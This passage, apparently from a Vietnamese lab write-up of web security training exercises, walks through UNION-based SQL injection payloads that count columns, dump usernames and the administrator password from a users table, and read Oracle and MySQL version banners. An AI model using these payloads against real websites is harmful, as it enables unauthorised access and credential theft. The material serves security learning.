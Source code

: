Dùng thông tin đã có để đăng nhập, kết quả thành công.

# 6. SQL injection UNION attack, retrieving multiple values in a single column
Chức năng search theo category của website có lỗi SQLi.

Ta thay URL thành `/filter?category=Pets%27%20UNION%20SELECT%20NULL,%27a%27--`. Kết quả trả về không có lỗi, như vậy câu query có 2 column được trả về.

Thay URL thành `/filter?category=Pets%27%20UNION%20SELECT%20NULL,%27a%27--`, kết quả trả về không có lỗi. Trong khi đó, nếu cũng thay giá trị NULL còn lại thành `%27a%27` thì lại xuất hiện lỗi. Như vậy chỉ có column thứ 2 có kiểu dữ liệu string.

Để lấy username, ta thay đổi URL thành `/filter?category=Pets%27%20UNION%20SELECT%20NULL,username%20FROM%20users--`. 

![image](https://user-images.githubusercontent.com/103978452/201869031-2f95a213-131d-4c13-abb8-068e8bada6c4.png)

Để lấy password của administrator, ta thay URL thành `/filter?category=Pets%27%20UNION%20SELECT%20NULL,password%20FROM%20users%20where%20username=%27administrator%27--`.

![image](https://user-images.githubusercontent.com/103978452/201936283-bfdb10e0-3da9-4ea0-afe6-c7d2f6233463.png)

Sử dụng username và password thu được để đăng nhập, kết quả thành công.

# 7. SQL injection attack, querying the database type and version on Oracle
Chức năng search theo category của website có lỗi SQLi.

Ta thay URL thành `/filter?category=Gifts%27%20UNION%20SELECT%20NULL,NULL%20from%20dual--` thì thấy không có thông báo lỗi. Như vậy query trả về 2 column.

Ta thấy khi thay giá trị `NULL` thứ 2 thành `%27a%27` thì không có lỗi. Như vậy tại column thứ 2 có kiểu dữ liệu string.

Để lấy version của Oracle, ta thay URL thành `/filter?category=Gifts%27%20UNION%20SELECT%20NULL,banner%20from%20v$version--`. Kết quả trả về thành công.

![image](https://user-images.githubusercontent.com/103978452/201870472-ba3cc893-04bb-4d21-8835-931e3c83c252.png)

# 8. SQL injection attack, querying the database type and version on MySQL and Microsoft
Chức năng search theo category của website có lỗi SQLi. Khi thay URL thành `/filter?category=Gifts%27--` thì kết quả trả về lỗi. Nhưng dùng URL `/filter?category=Gifts%27%23` thì lại thành công. Như vậy database được sử dụng là MySQL.

Thay URL thành `/filter?category=Gifts%27%20UNION%20SELECT%20NULL,NULL%23` thì kết quả không có lỗi, như vậy query trả về 2 column.

Thay URL thành `/filter?category=Gifts%27%20UNION%20SELECT%20NULL,%27a%27%23` thì kết quả không có lỗi, như vậy column thứ hai có kiểu dữ liệu string.
